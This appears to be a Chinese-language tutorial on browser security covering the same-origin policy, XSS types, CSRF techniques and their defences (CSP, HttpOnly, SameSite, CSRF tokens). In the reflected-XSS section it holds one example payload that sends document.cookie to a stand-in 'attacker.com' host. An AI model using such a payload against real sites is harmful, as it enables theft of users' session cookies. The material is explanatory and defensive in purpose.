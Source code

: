 # 浏览器安全

## 同源策略

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。

```js
http://store.company.com/dir/page.html

http://store.company.com/dir2/other.html // 同源，路径不同
https://store.company.com/secure.html // 不同源，协议不同
http://news.company.com/dir/other.html  // 不同源，域名不同
http://store.company.com:81/dir/etc.html // 不同源，端口不同
```

同源体现在三个方面

* DOM 层面。只有同源的页面才能通过 window.opener 拿到上一个页面的 window 对象去修改 dom
* 数据层面。Cookie、IndexDB、LocalStorage 这些数据在同源的页面下才能访问
* 网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

## 跨站脚本攻击（XSS）

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

### XSS 可以做什么

* 可以窃取 Cookie 信息。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
* 可以监听用户行为。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
* 可以通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
* 还可以在页面内生成浮窗广告，这些广告会严重地影响用户体验。

### XSS 如何注入

* 存储型 XSS 攻击

首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；然后用户向网站请求包含了恶意 JavaScript 脚本的页面；当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。

例如，2015 年喜马拉雅就被曝出了存储型 XSS 漏洞。起因是在用户设置专辑名称时，服务器对关键字过滤不严格，比如可以将专辑名称设置为一个引入了外部 js 代码的 script 标签。喜马拉雅的服务器会保存该段 JavaScript 代码到数据库中。然后当用户打开黑客设置的专辑时，这段代码就会在用户的页面里执行，这样就可以通过 XMLHttpRequest 或者 Fetch 将用户的 Cookie 数据上传到黑客的服务器。黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号，并利用用户账号进行一些恶意操作。

* 反射型 XSS 攻击

用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击。在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接。Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

例如，某个网站的错误页面是简单获取 url 参数中的 msg 参数然后插入错误页面中显示。那么黑客就可以诱使用户点击一个联机：`https//somesite.com/error.html?msg=<script>var+i=newImage;i.src="http://attacker.com"%2bdocument.cookie;</script>`。这样用户点击后后面的恶意代码就会执行，会生成一个图片，然后请求黑客的网址将 cookie 上传至黑客的服务器。

* 基于 DOM 的 XSS 攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

### 如何阻止 XSS

1. 服务器对输入脚本进行过滤或转码。将请求提交内容中的 js 代码过滤掉，可以进行转义。
2. CSP（Content-Security-Policy 内容安全策略）。
    * 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
    * 禁止向第三方域提交数据，这样用户数据也不会外泄；
    * 禁止执行内联脚本和未授权的脚本；
    * 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。
3. 使用 HttpOnly 属性。HttpOnly 是服务器通过 HTTP 响应头来设置的。set-cookie 属性值最后使用 HttpOnly 来标记该 Cookie。使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。

### 针对 XSS 前端和后端验证的必要性

问题： 如果前端对表单数据做了验证，那么后端还需要做验证吗？

答：有必要。

1. 后端还需要做验证是因为后端接口有可能会脱离前端被请求，如果不做验证，那么就相当于裸奔了，很容易被攻击。
2. 前端做验证可以提高用户体验，不需要等待服务器响应回来后再提示错误，而且可以减少没有必要的请求。

## CSRF

CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

### CSRF 攻击方式

1. 自动发起 Get 请求。假设网站有一个转账的接口，打开黑客的链接后，将请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的钱就被转移到黑客的账户上去了。
2. 自动发起 POST 请求。黑客在页面中创建一个隐藏的表单，用户打开黑客链接后，隐藏的表单会自动执行提交执行转账操作。
3. 引诱用户点击链接。链接的地址其实是调用转账接口，点击后就会执行转账操作。

和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。

### 为什么黑客的网站和要攻击的网站不同域，请求也可以获取到 cookie？

虽然黑客网站和目标网站域名不同，是跨域的，但是 img 标签的 src 可以加载不同域名的数据发起 get 请求，并携带对应域名的 cookie，而表单一般用于提交数据，可以跨域发请求，只是拿不到响应而已，所以浏览器不限制利用表单发送跨域请求。在不同域名页面下使用 img 和 表单请求携带的 cookie 被称为第三方 cookie。

### 如何防止 CSRF

1. 充分利用好 Cookie 的 SameSite 属性。在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项。SameSite 选项通常有 Strict、Lax 和 None 三个值。
    * Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。
    * Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
    * 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据。
2. 验证请求的来源站点。Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址。但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了 Origin 属性，在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性。Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的一个主要区别。服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值。
3. CSRF Token。
    1. 第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。
    2. 第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。